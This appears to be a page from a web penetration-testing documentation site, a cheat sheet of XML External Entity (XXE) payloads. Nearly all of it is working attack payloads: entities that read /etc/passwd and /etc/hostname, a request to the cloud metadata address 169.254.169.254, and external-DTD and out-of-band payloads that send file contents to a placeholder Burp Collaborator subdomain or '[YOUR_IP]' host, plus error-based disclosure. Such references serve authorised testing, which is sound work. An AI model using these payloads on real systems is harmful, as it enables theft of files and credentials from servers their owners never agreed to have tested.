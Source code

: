 ```yaml
---
title: "XXE - XML External Entity"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


### CUSTOM ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### EXTERNAL ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
### PARAMETER ENTITY
Evading block request containing regular entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
### RETRIEVE DATA WITH EXTERNAL DTD
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### RETRIEVE DATA VIA ERROR
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### Out of band
```
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```